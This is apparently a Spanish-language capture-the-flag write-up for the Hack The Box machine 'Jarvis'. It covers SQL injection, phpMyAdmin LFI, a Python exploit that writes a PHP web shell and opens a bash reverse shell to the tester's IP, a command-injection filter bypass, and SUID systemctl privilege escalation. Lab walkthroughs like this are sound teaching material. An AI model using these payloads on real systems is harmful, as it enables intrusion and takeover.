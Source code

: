 ```yaml
---
title : Máquina|Jarvis|HTB|SQL|SUID
published : True
---
```


<div class="contenedor imgc">
    <img class="imgc" src="imgs/Jarvis/Jarvis0.png" style="border-radius: 190px; width: 169px" alt="Jarvis">
    <div>
        <p><font color="red" style="text-shadow: 5px 5px 20px red;">#</font> Dificultad: Media </p>
        <p><font color="red" style="text-shadow: 5px 5px 20px red;">#</font> Url: <a href="https://app.hackthebox.com/machines/194" style="color: lightblue;">Jarvis</a></p>
    </div>
</div>

<h2><font color="white"><center># Jarvis</center></font></h2>
<br>


* <p>Vemos que es una maquina Linux a lo que nos enfrentamos por el TTL.</p>
>
<img src="imgs/Jarvis/Jarvis1.png">

* <p> Empezamos enumerando los puertos del servidor.</p>
>
<img src="imgs/Jarvis/Jarvis2.png">

* <p> Ahora procedemos a enumerar las tecnologías.</p>
>
<img src="imgs/Jarvis/Jarvis3.png">

* <p> Enumeramos directorios y archivos activos de la pagina web.</p>
>
<img src="imgs/Jarvis/Jarvis4.png">
>

* <p> Observamos el phpmyadmin y probamos credenciales por defecto.</p>
>
<img src="imgs/Jarvis/Jarvis5.png">

* <p> Al estar enumerando la pagina mire que era susceptible a un ataque de inyección sql.</p>
>
<img src="imgs/Jarvis/Jarvis6.png">
>
`union select 1,2,group_concat(User,0x3a,Password),4,5,6,7 from mysql.user-- -`

* <p> Procedemos a descifrar el hash que es MySQL 4.1, y sacamos como resultado la credencial: imissyou</p>
<img src="imgs/Jarvis/Jarvis7.png">


* <p> Procedemos a conectarnos en el panel previamente descubierto anteriormente.</p>
>
<img src="imgs/Jarvis/Jarvis8.png">

* <p> Procedemos a ver en searchsploit si hay exploits dedicados a esta version de phpmyadmin 4.8.0, vemos que puede ser susceptible a LFI.</p>
>
<img src="imgs/Jarvis/Jarvis9.png">
* <p> Vemos la posterior ruta en la que este exploit acude para poder tener un LFI y observamos la siguiente url</p>
>
<img src="imgs/Jarvis/Jarvis10.png">

* <p> Alistamos el /etc/passwd y vemos que si es vulnerable a un LFI</p>
>
<img src="imgs/Jarvis/Jarvis11.png">

* <p>No vemos nada relevante asi que procedemos a cargar un archivo por medio de la inyección SQL en la pagina web </p>
>
<img src="imgs/Jarvis/Jarvis12.png">

* <p>Vemos que nos interpreta el código.</p>
>
<img src="imgs/Jarvis/Jarvis13.png">

* <p>Posteriormente nos creamos un "exploit" para que nos automatice todo, lo que hace es codificar en base64 una reverse Shell, lanza la petición para que se aloje en el directorio 10.10.10.143/rem.php para posteriormente lanza otra petición a ese directorio del sistema mientras nos ponemos en escucha por el puerto 5550.</p>

```python
#!/usr/bin/python3
import requests
import sys
import signal
import time
import threading
from pwn import *

def salida(sig, frame):
	print("saliendo")
	sys.exit(1)

signal.signal(signal.SIGINT, salida)

#Cree su propia Shell base64 : echo "/bin/bash -i >& /dev/tcp/IP/5550 0>&1" | base64 
base64 = "L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE2LjIvNTU1MCAwPiYxCg=="
port = 5550
url_ = "http://10.10.10.143"
file = "rem.php"

create_file = "http://10.10.10.143/room.php?cod=10%20union%20select%201,2,%22%3C?php%20system(%27echo%20{base64}%20|base64%20-d%20|bash%20%27);?%3E%22,4,5,6,7%20into%20outfile%20%22/var/www/html/{file}%22--%20-"
def pwned_shell():
    get_file = requests.get(create_file)
    get_shell = requests.get(f"{url_}/{file}")

try:
    threading.Thread(target=pwned_shell, args=()).start()
except Exception as e:
    log.error(str(e))

server = listen(port, timeout=20).wait_for_connection()
server.interactive()

```

* exploit.py
>
<img src="imgs/Jarvis/Jarvis15.png">

* <p> Procedemos a ejecutar el exploit. </p>


<video controls style="width: 100%; max-width: 600px; border-radius: 12px; margin: 0 auto; display: block;">
  <source src="imgs/Jarvis/video.mp4" type="video/mp4">
  Tu navegador no soporta la reproducción de video.
</video>


* <p> Como quiero crearme una full tty no usare este exploit, sino que me pondré en escucha no netcat por el puerto 5550 y ejecuto el script.</p>
>
<img src="imgs/Jarvis/Jarvis16.png">

* <p> Procedemos cone el tratemiento de la Shell para tener una full tty.</p>
>
<img src="imgs/Jarvis/Jarvis18.png">
<img src="imgs/Jarvis/Jarvis19.png">
<img src="imgs/Jarvis/Jarvis21.png">

* <p>En este punto podríamos ver la flag de jarvis.</p>
>
<img src="imgs/Jarvis/Jarvis35.png">

* <p>Vemos que tenemos permiso para ejecutar un archivo en python siendo el usuario pepper.</p>
>
<img src="imgs/Jarvis/Jarvis36.png">

* <p>EL archivo python no esta del todo bien sanitizado. no me permite ejecutar ['&', ';', '-', '`', '||', '|'] pero no necesariamente tengo que usar estos caracteres para inyectar comandos y escalar privilegios, que paso si ahora ejecuto </p>
>
<img src="imgs/Jarvis/Jarvis22.png">

* <p>Vemos que al inyectar en el campo un $(echo "2"),recibimos la traza ICMP a mi interfaz 10.10.16.2 tun0.</p>
>
<img src="imgs/Jarvis/Jarvis23.png">

* <p>Si me hago una reverse Shell no podría ganar acceso al sistema por que no me permite el &, entonces para hacerle un Bypass a esta solicitud me creo un archivo temporal, en este almacenare la reverse Shell:</p>
>
<img src="imgs/Jarvis/Jarvis25.png">

* <p>Posterior mente me ejecuto el archivo. y ganamos acceso al sistema siendo pepper.</p>
>
<img src="imgs/Jarvis/Jarvis26.png">

* <p>Hacemos la Shell una full tty</p>
>
<img src="imgs/Jarvis/Jarvis27.png">

* <p>Ajustamos las filas y columnas.</p>
>
<img src="imgs/Jarvis/Jarvis30.png">

* <p>Vemos que tiene permisos SUID a systemctl lo que hace vulnerable, podemos crearnos una tarea siendo root.</p>
>
<img src="imgs/Jarvis/Jarvis31.png">

* <p>Estructura básica de una tarea systemctl</p>

```ruby
[Unit]
Description=Descripción del servicio
After=network.target

[Service]
Type=oneshot
ExecStart=/ruta/a/tu/programa

[Install]
WantedBy=multi-user.target
```

* <p>Configuramos los archivos y ganamos posteriormente acceso al sistema</p>
>
<img src="imgs/Jarvis/Jarvis33.png">

* <p>Posteriormente podemos ver la flag de root.</p>
>
<img src="imgs/Jarvis/Jarvis34.png">